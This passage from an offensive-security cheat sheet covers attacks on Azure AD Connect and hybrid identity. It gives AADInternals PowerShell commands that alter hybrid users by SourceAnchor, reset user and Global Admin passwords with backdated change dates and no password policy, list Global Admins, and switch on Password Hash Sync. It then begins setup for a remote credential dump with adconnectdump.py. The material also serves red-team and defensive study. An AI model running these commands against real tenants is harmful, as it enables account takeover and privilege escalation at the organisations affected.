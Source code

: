 ### AADInternals - Users with immutable IDs are hybrid users and can be modified if we know their SourceAnchor
```powershell
Set-AADIntAzureADObject -SourceAnchor "UQ989+t6fEq9/0ogYtt1pA==" -displayName "I've been hacked!"
```

### AADInternals - Change a users password, change date to anything we want, no password policy enforced here
```powershell
Set-AADIntUserPassword -SourceAnchor "UQ989+t6fEq9/0ogYtt1pA==" -Password "NewPwd" -ChangeDate (Get-Date).AddYears(-1)
```

### AADInternals - If result 0, we're successful. Then list GAs
```powershell
Get-AADIntGlobalAdmins
```

### AADInternals - If Global Admin is a hybrid user with a SourceAnchor we can change the password the same way
### We can also change cloud admins by speciifying CloudAnchor
```powershell
Set-AADIntUserPassword -CloudAnchor "User_7b0ad665-a751-43d7-bb9a-7b8b1e6b1c59" -Password "NewPwd" -ChangeDate (Get-Date).AddYears(-1)
```

### Note - PHS
Password reset works only if the Password Hash Synchronisation (PHS) is enabled. Luckily, AAD Connect service account can turn it on. The following command just sets the PHS switch in Azure AD, it doesn’t start the actual PHS sync.

### Enable PHS
```powershell
Set-AADIntPasswordHashSyncEnabled -Enabled $true
```



## Scenario 3 - ADConnectDump.py - Remote Dump over Network

### Requirements: From Windows, Python2.7 Impacket, 
```powershell
adconnectdump.py, ADSyncQuery.exe
```

###  Python2 - Install Python2.7
```powershell
cinst -y python2
C:\Python27\python.exe -m pip install impacket pycryptodomex
```
